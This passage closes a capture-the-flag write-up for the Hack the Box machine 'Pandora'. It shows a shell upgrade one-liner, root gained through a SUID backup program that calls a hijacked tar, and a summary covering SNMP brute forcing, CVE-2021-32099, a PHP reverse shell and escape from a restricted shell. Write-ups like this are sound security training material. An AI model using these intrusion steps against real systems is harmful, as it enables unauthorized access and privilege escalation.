 I fix my shell:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

`export TERM=xterm-256color`

And now when I run `sudo -l` I get the standard behavior:

```
matt@pandora:/home/matt$ sudo -l
[sudo] password for matt: 
```

<br>

## Root

I go ahead and run the backup program again:

`/usr/bin/pandora_backup`

And it uses the tar command I created previously which drops me right into a root shell:

```
matt@pandora:/home/matt$ /usr/bin/pandora_backup 
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:/home/matt# whoami
root
```

Heading over to **/root** I grab the **root.txt** flag:

`wc -c root.txt`

```
33 root.txt
```

<br>

With that we've completed this CTF! It was a long one but a lot of fun to go through.

![](images/pandora7.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **rustscan** and **gobuster**
- Using **hydra** to brute force an SNMP community string
- Running **snmp-check** to enumerate SNMP and find login credentials
- Identifying another internal facing website and using **ssh tunneling** to connect to it
- Using **CVE-2021-32099** to login as admin on the **Pandora FMS** website
- Uploading a **PHP reverse shell** and getting the website to connect back to us
- Escaping a **restricted shell** using **at**
- Root privilege escalation by **creating our own tar command** that invokes a shell when the SUID backup program calls it, because it doesn't use an absolute path when running the actual tar command

<br>

Many thanks to:
- [**TheCyberGeek**](https://app.hackthebox.com/users/114053) and [**dmw0ng**](https://app.hackthebox.com/users/610173) for creating this CTF.
- **Hack the Box** for hosting this CTF.

<br>

You can visit them at: [**https://www.hackthebox.com**](https://www.hackthebox.com)